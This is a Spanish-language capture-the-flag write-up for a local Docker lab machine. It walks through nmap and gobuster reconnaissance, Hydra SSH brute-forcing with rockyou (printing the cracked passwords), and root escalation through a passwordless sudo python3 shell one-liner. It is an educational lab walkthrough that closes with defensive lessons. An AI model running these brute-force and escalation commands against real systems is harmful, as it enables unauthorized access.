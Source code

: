 # 🕵️‍♀️ Informe Técnico: Pequeñas-Mentirosas

* **Nivel:** Fácil
* **IP de la máquina:** 172.17.0.2
* **Objetivo:** Obtener acceso root en la máquina vulnerable a través de reconocimiento, acceso por fuerza bruta SSH y escalada de privilegios.
* **Logo de la máquina:**

![Logo](/Pequeñas-Mentirosas/Imagenes/Logo.png)

---

## 🔧 Despliegue de la Máquina

Primero, se descarga y descomprime la máquina vulnerable usando los siguientes comandos:

```bash
unzip Pequeñas-Mentirosas.zip
sudo bash auto_deploy.sh pequenas-mentirosas.tar
```

Esto despliega la máquina en un entorno Docker.

![Despliegue](/Pequeñas-Mentirosas/Imagenes/Despliegue.jpeg)

---

## 🌐 Verificación de Conectividad

Verificamos que haya conexión con la máquina ejecutando un `ping` a su IP:

```bash
ping -c1 172.17.0.2
```

![Ping](/Pequeñas-Mentirosas/Imagenes/Ping.jpeg)

---

## 🔍 Escaneo de Puertos

Se realiza un escaneo completo de puertos con Nmap:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts.txt
```

Se detectan los puertos **22 (SSH)** y **80 (HTTP)** abiertos.

![Puertos Abiertos](/Pequeñas-Mentirosas/Imagenes/Puerto.jpeg)

Luego, se escanean los servicios en esos puertos:

```bash
extractPorts allPorts.txt
nmap -sC -sV -p 22,80 172.17.0.2 -oN target.txt
```

![Servicios Detectados](/Pequeñas-Mentirosas/Imagenes/Servicio.jpeg)

---

## 🧭 Reconocimiento Web

Accediendo al puerto 80 en el navegador encontramos una página web con una pista visual:

![Página Web](/Pequeñas-Mentirosas/Imagenes/Pagina.jpeg)

Intentamos descubrir directorios ocultos con **Gobuster**:

```bash
gobuster dir -u http://172.17.0.2/ \
  -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -t 20 -add-slash -b 403,404 -x php,html,txt
```

No se encontraron resultados relevantes.

![Gobuster](/Pequeñas-Mentirosas/Imagenes/Fuzzing.jpeg)

---

## 🔐 Fuerza Bruta SSH (Usuario: `a`)

Aprovechando que el puerto SSH está abierto, se usa **Hydra** para intentar acceder:

```bash
hydra -l a -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Se descubre la combinación válida:

* **Usuario:** `a`
* **Contraseña:** `secret`

![Hydra Usuario a](/Pequeñas-Mentirosas/Imagenes/Hydraa.jpeg)

Ingresamos por SSH:

```bash
ssh a@172.17.0.2
```

![Acceso SSH a](/Pequeñas-Mentirosas/Imagenes/SSHa.jpeg)

---

## 🔍 Enumeración y Descubrimiento de Usuario

Al revisar el sistema, encontramos que existe otro usuario llamado `spencer`.

![Usuarios](/Pequeñas-Mentirosas/Imagenes/Usuarios.jpeg)

---

## 🔐 Fuerza Bruta SSH (Usuario: `spencer`)

Volvemos a usar Hydra para descubrir la contraseña de `spencer`:

```bash
hydra -l spencer -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 4
```

Se obtiene acceso con:

* **Usuario:** `spencer`
* **Contraseña:** `password1`

![Hydra Spencer](/Pequeñas-Mentirosas/Imagenes/Hydra.jpeg)

Ingresamos con:

```bash
ssh spencer@172.17.0.2
```

![SSH Spencer](/Pequeñas-Mentirosas/Imagenes/Spencer.jpeg)

---

## ⬆️ Escalada de Privilegios a Root

Dentro de la sesión como `spencer`, ejecutamos:

```bash
sudo -l
```

El sistema revela que podemos ejecutar **Python3 como root sin contraseña**:

```
(ALL) NOPASSWD: /usr/bin/python3
```

Esto nos permite ejecutar comandos como root usando Python. Escalamos con:

```bash
sudo python3 -c 'import os; os.system("/bin/bash")'
```

Con esto, obtenemos una shell como **root**.

![Root](/Pequeñas-Mentirosas/Imagenes/root.jpeg)

---

## ✅ Conclusión

* 🧠 Se realizó reconocimiento de servicios expuestos.
* 🔑 Se obtuvo acceso por fuerza bruta al usuario `a`, y luego a `spencer`.
* 🚀 Se aprovechó un permiso sudo sin contraseña para escalar privilegios a **root** usando Python.

---

Si estás empezando en ciberseguridad, esta máquina es perfecta para entender la importancia de:

* Usar contraseñas seguras.
* Restringir permisos `sudo`.
* Evitar dejar pistas innecesarias en servicios web.

